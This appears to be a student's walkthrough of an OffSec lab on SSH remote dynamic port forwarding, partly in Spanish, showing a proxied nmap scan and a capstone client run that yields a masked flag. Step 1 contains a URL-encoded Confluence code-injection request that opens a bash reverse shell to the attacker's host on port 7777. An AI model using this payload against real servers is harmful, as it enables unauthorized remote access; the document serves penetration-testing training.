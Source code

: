 # Walk: Port Redirection and SSH Tunneling - SSH Dynamic Remote Port Forwarding - VM Group 1

## Fecha: 23/03/2025
## Host: PGDATABASE01 | CONFLUENCE01 | MULTISERVER03
## IP: 10.4.xxx.215 |  192.168.xxx.63 | 192.168.xxx.64
## Objetivo
1. Follow the steps in this section to set up a remote dynamic port forward from CONFLUENCE01. Scan ports 9050-9100 on MULTISERVER03 through it. Which port is open? (Note: Make sure to scan MULTISERVER03 on its internal interface at 10.4.X.64).
2.  **Capstone Lab**: Download the **ssh_remote_dynamic_client** binary from the _Resources_ section. If you're running the _aarch64_ build of Kali, download the **ssh_remote_dynamic_client_aarch64** binary. Run the binary against the port you just found on MULTISERVER03 through the remote dynamic port forward.
## Herramientas
1. ssh
2. systemctl
## Procedimiento y comandos
#### Paso 1: Cambiamos el puerto en el payload a 7777
1. Cambiamos 
```
┌──(root㉿kali)-[/home/kali/OffSec/19-PortForwarding-SSHTunneling/19.3.3-SSH-Remote-PortForwarding]
└─# curl -v http://192.168.xxx.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.xxx/7777%200%3E%261%27%29.start%28%29%22%29%7D/
...
```
2. Iniciamos el servicio: `sudo systemctl start ssh`
#### Paso 2: Configuramos el tunel desde _CONFLUENCE_
1. Nos conectamos a CONFLUENCE como en las maquinas anteriores:
```
confluence@confluence01:/opt/atlassian/confluence/bin$ python3 -c 'import pty; pty.spawn("/bin/sh")'
</bin$ python3 -c 'import pty; pty.spawn("/bin/sh")'
$ ssh -N -R 9998 kali@192.168.45.xxx
ssh -N -R 9998 kali@192.168.45.xxx
Could not create directory '/home/confluence/.ssh'.
The authenticity of host '192.168.45.xxx (192.168.45.xxx)' can't be established.
ECDSA key fingerprint is SHA256:A44ctMNCG48aRHny80MXOphfYTv3LcRjemm+4lxN2gw.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
yes
Failed to add the host to the list of known hosts (/home/confluence/.ssh/known_hosts).
kali@192.168.45.xxx's password: 
```
#### Paso 3: Obtenemos el flag
1. Desde kali comprobamos la configuracion del tunel:
```
┌──(root㉿kali)-[/home/kali/OffSec/19-PortForwarding-SSHTunneling/19.3.4-SSH-Dynamic-Remote-PortForwarding]
└─# proxychains nmap -sT -p 9000-9100 -Pn -n 10.4.xxx.64

[proxychains] Strict chain  ...  127.0.0.1:9998  ...  10.4.xxx.64:9017 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:9998  ...  10.4.xxx.64:9059 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:9998  ...  10.4.xxx.64:9062  ...  OK
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
[proxychains] Strict chain  ...  127.0.0.1:9998  ...  10.4.xxx.64:9016 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:9998  ...  10.4.xxx.64:9057 <--socket error or timeout!
 
```
### Anexo Capstone
1. En la misma maquina ejecutamos el script:
```
┌──(root㉿kali)-[/home/kali/OffSec/19-PortForwarding-SSHTunneling/19.3.4-SSH-Dynamic-Remote-PortForwarding]
└─# proxychains ./ssh_remote_dynamic_client -i 10.4.xxx.64 -p 9062
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Connecting to 10.4.xxx.64:9062
[proxychains] Strict chain  ...  127.0.0.1:9998  ...  10.4.xxx.64:9062  ...  OK
Flag: "OS{8564***************************4932}"
```

